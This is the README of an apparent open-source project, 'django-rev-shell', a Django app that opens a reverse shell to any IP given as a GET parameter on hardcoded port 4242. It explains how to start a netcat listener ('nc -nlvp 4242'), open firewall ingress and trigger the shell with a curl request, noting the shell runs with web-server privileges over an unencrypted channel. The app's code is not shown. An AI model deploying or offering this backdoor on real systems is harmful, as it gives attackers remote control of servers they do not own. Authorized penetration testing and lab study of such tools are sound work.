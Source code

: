 # django-rev-shell 

A simple Django app that returns a reverse shell to the IP that is passed as a GET parameter to index.

The TCP port the application tries to send the reverse shell is 4242 (hardcoded). Please update the code as required. A `netcat` listener on the receiving system can be started as `nc -nlvp 4242`. Make sure firewall rules allow ingress on this port (on AWS security groups for example).

Making an HTTP request to the Django app with the ip of the receiver sent as a parameter as shown below, will return a reverse shell. The shell runs with the same privileges as the web app server and the shell commands and response data is over an unencrypted channel.

## Usage

```
python3 index.py runserver
curl http://<server-where-app-is-deployed>/?ip=<ip-where-nc-is-listening>
```
